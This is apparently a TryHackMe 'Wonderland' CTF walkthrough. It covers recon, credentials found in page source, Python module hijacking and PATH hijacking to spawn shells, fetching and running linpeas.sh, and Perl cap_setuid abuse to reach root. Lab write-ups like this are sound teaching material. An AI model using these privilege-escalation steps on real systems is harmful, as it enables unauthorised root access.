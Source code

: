 ```yaml
---
description: import manipulation, broken capabilities, linux priv esc
---
```


# 🐰 Wonderlands walkthrough / the Rabbit hole



```
"04.06.2024"
```

{% embed url="https://tryhackme.com/r/room/wonderland" %}
Link to CTF on TryHackMe
{% endembed %}

## Initial Reconnaissance

We begin our exploration with a standard Nmap scan to identify open ports on the target machine. The scan results show two open ports: 80 (HTTP) and 22 (SSH).

```bash
nmap target_ip
```

<div align="center" data-full-width="false"><figure><img src="../.gitbook/assets/artemrozycki@ssmqd crack  nmap 10.10.182.158.png" alt=""><figcaption></figcaption></figure></div>

## Web Page Investigation

First, we check port 80 and visit the webpage. At first look, there is nothing interesting on the main page, so we check the source code.

<figure><img src="../.gitbook/assets/Pasted Graphic 2.png" alt=""><figcaption></figcaption></figure>

In the source code, we find an "img" directory with images from the site. So lets dive deeper and check if this directory contains something interesting. There are only three photos. At first, I thought they weren't needed for this CTF. I quickly checked them for hidden binaries and found nothing. But after completing the CTF, in one of the write-ups I found that one of the images uses cryptography to hide a hint for us. Unfortunately, we took a longer path, but in the end, we still got the same results.

<div align="center"><figure><img src="../.gitbook/assets/http10.10.182.158img.png" alt=""><figcaption></figcaption></figure></div>

### **Finding More Directories**

Lets run gobuster scan and check web page for potential directories undiscovered or hidden files.

```bash
gobuster dir -w directory_list -u http://target_ip
```

<figure><img src="../.gitbook/assets/Pasted Graphic 5 (1).png" alt=""><figcaption></figcaption></figure>

Using Gobuster, we got the response from "img" directory (that was previously discovered by us), and another one named "r". Visiting this new directory in the browser, we see a quote: "Would you tell me, please, which way I ought to go from here?" <mark style="background-color:green;">This tells us there is more to find.</mark>

<figure><img src="../.gitbook/assets/Would you tell me, please, which way I ought to go from here.png" alt=""><figcaption></figcaption></figure>

We continue using Gobuster and find a path of directories **(/r/a/b/b/i/t/)**, which leads us to hidden credentials in the source code.

<figure><img src="../.gitbook/assets/Pasted Graphic 10.png" alt=""><figcaption></figcaption></figure>

## Privileges Escalation&#x20;

With these credentials, we can log in via SSH.

In our home folder, we discovered a few interesting files.

1. **root.txt**, which can be accessed only by the root user and usually serves as the final flag in most CTFs.
2. A Python file that we will explore later.

<figure><img src="../.gitbook/assets/1 alice alice.png" alt=""><figcaption></figcaption></figure>

For now, let's check if our user is allowed to run something with sudo or as another user. The response provides us information about the privileges to run a specific Python file from our folder as the user named 'rabbit'.

```bash
sudo -l 
```

<figure><img src="../.gitbook/assets/Pasted Graphic 13.png" alt=""><figcaption></figcaption></figure>

Looking at "walrus\_and\_the\_carpenter.py", we see it prints random lines from a poem and uses the <mark style="background-color:green;">random</mark> module. We can use this to escalate our privileges by creating a malicious <mark style="background-color:green;">random.py</mark> file. The code below will import the **pty** module and spawn a bash shell under the name of the user who runs it.

```bash
vi random.py

# code to insert into random.py file
import pty
pty. spawn(‘/bin/bash')
```

We then run the script with sudo and the **rabbit** user. This will give us a prompt to the 'rabbit' shell.

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../.gitbook/assets/Pasted Graphic 17.png" alt=""><figcaption></figcaption></figure>

### Escaping the Rabbit

As the **rabbit** user, we find an SUID binary called "teaParty". Running it doesn't give us anything useful at first. We decide to use the **strings** command to check it, but it is not installed on the target machine. So, we transfer "teaParty" to our local machine to analyze it.

<figure><img src="../.gitbook/assets/Pasted Graphic 18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/The Mad Hatter will be here soon..png" alt=""><figcaption></figcaption></figure>

```bash
cp teaParty /tmp

scp alice@target_ip:/tmp/teaParty ./teaParty
```

Now, let's run **strings** on this file. After some investigation, we discovered the use of <mark style="background-color:green;">date</mark> without a specified path. So, we can try to use the same principle as with the 'rabbit' user and the Python file. We will create a **date** file in the 'rabbit' home directory with a command that will run a shell.

<figure><img src="../.gitbook/assets/Welcome to the tea party!.png" alt=""><figcaption></figcaption></figure>

Lets connect back to the machine, and create file with name ‘date’.

```bash
vi date

#!/bin/bash 
/bin/bash
```

Now, we need to export the default variable path to the current directory and add execute privileges to the created file. This will allow us to change the <mark style="background-color:green;">date</mark> command functionality from the default to the one specified in the created **date** file. Let's activate it and see whose shell we land in.

```bash
export PATH=/home/rabbit: $PATH
chmod +x date
```

<figure><img src="../.gitbook/assets/rabbit@wonderlandhomerabbitS export PATH=homerabbitSPATH.png" alt=""><figcaption></figcaption></figure>

### Using Automated Tools&#x20;

We will use **linpeas.sh** to find more ways to escalate our privileges. After transferring and running the script, we see that <mark style="background-color:green;">Perl</mark> has broken capabilities. Let's check GTFOBins for some valid payloads.

```bash
python3 -m http.server

wget http://your_ip:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

<figure><img src="../.gitbook/assets/Files with capabilities (limited to.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Pasted Graphic 29.png" alt=""><figcaption></figcaption></figure>

Now, we can try to run them all and potentially get the root shell.

```bash
cp $(which perl) .
sudo setcap cap_setuid+ep perl
perl -e 'use POSIX qw(setuid); POSIX:: setuid(0); exec “/bin/sh”;’
```

And boom, we're in the root shell. Now, we can copy the user and root flags from their corresponding folders.

<figure><img src="../.gitbook/assets/Pasted Graphic 30.png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">user.txt</mark> & <mark style="color:green;">root.txt</mark>
{% endhint %}

Thanks to all the readers for following along with my journey! Hope you have learnt something new!
